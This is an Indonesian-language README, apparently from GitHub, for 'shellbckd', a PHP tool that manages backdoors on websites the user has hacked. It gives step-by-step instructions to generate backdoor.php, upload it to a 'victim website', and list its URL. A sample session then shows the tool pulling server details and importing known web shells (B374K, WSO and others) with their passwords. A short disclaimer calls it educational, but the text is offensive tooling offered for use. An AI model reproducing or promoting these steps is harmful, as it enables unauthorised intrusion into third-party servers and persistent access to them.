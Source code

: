 # shellbckd
#### Versi 1.0

<p align="center">
  <img src="https://github.com/Yoga913/shellbckd/blob/main/sheellbackdor.png" alt="Deskripsi Gambar" width="300">
</p>

----
shellbckd adalah alat manajemen Backdor Sederhana berbasis PHP. Alat ini berguna bagi "PERETAS" yang ingin melacak setiap situs web yang mereka retas. Alat ini menghasilkan file Backdor yang hanya perlu Anda unggah ke situs dan meletakkan URL Backdor di shells.txt yang ada di direktori alat.

# Dengan shellbckd Anda bisa

- Impor Shell PHP
- Dapatkan Detail Server
- Unggah File Dari Sistem Anda menggunakan terminal Anda
- Dan yang terpenting, Anda Dapat Mengelola Backdor Anda dengan Efisien

# Cara Penggunaan

1. `git clone https://github.com/Yoga913/shellbckd`
2. `cd shellbckd`
3. `php shellbckd.php`
4. `generatebd` dan keluar dari alat gunakan <kbd>CTRL</kbd> + <kbd>C</kbd> - Ini akan menghasilkan file Backdor di direktori yang sama dengan alat dalam file bernama **backdoor. php**
5. Upload File Backdoor Ke Website Korban
6. Salin URL Backdor dan tempel di file **shells.txt** yang ada di direktori alat dan simpan (*Setiap Backdor dipisahkan oleh baris baru*)
7. `php shellbckd.php`
8. Masukkan **Nomor Seri** yang Ditugaskan ke Backdor
9. Istirahat cukup jelas

# Persyaratan
```
php
curl
```
# Contoh
```
root@kalilinux:/home/kalilinux/Desktop/shellbckd# php shellbckd.php

   #####################################################################             
###                                                                     ##-           
##   ##################################+##############################   ##           
##   ##                     ############ #############              ##  .#+           
##   ##                  ######          #    **     #              ##  .#+           
##   ##                #####  ##         #   *   *   #              ##  .#+           
##   ##                #   ## ##         #  *  !  *  #              ##  .##           
##   ##                ##### ##########  # *#****#+ ##              ##  .#+           
##   ##                   ###  #       # #           #              ##  .#+           
##   ##                    ##  #   ###   #           #              ##  .#+           
##   ##          #########-    #   #  #  #           #              ##  .#+           
##               ##############    #  # ##           #              ##  .#+           
##   ##                    ##-+#####  ##  ##         #              ##  .#+           
##   ##               #####        #    ##           #              ##  .#+           
##   ##           ####  ########   ###   #           #              ##  .#+           
##   ##           ##  ##   ##   ##.   ####           #              ##  .#+           
##   ##           ##  #    ##     ###    #           #              ##  .#+           
##   ##            #  #    ##            #           #              ##  .#+           
##   ##          #######   ############# #############              ##  .#+           
##   ##                                                             ##  .#+           
##   #################################################################  .#+           
##                                                                       ##           
##                                                             ##   ##  +##           
 ####+.......................                  ..............     .   ###            
     #########################################-#######################                
                        ##..-----------.   ##                                        
                       ##               .+ +##                                        
                     ###                     ###                                      
         ###################################################                          

 Sistem Manajemen Backdor Sederhana
 Dibuat oleh: yoga913
Catatan:$bold Saya Memebuat nya untuk kegiatan pendidikan penelitian selebihnya tidak bertanggung jawa.
==========================================================================================



Daftar Backdor:

0.http://localhost/backdoor.php
===============

[#] Masukkan salah satu dari ini (Nomor Backdor|bantuan|hasilkanbd): 0

[+] Shell Dipilih: http://localhost/backdoor.php
[+] Memvalidasi Backdor: Backdor Ditemukan!

Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):2

[+] Info Server
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[i] Server: Linux Kalilinux 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (06-06-2017) x86_64
[i] IP Server: 127.0.0.1


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):1


Daftar Kerang
===============
[1] busur shell {Pengguna & Pass: shellbckd123}
[2] B374K shell {Lulus : shellbckd123}
[3] Kurama shell V.1.0 {Lulus : merah}
[4] WSO shell {Lulus : shellbckd123}
[5] MiNi shell {Pengguna & Pass: shellbckd123}

[#] Pilih Shell Untuk Diimpor(1-5):1


[i] Mengimpor Shell...
[i] Mengirim Permintaan Dan Mendapatkan Respons...
[R] Dhanush Shell Berhasil Diimpor Ke /var/www/html/busur.php


Tekan Enter Untuk Melanjutkan


Daftar Tindakan
================
[1] Impor Shell PHP
[2] Detail Server
[3] Hapus Backdor
[4] Unggah File Jarak Jauh
[5] Keluar

[#] Pilih Opsi(1|2|3|4|5):5
root@Kalilinux:/home/kalilinux/Desktop/shellbckd#

```
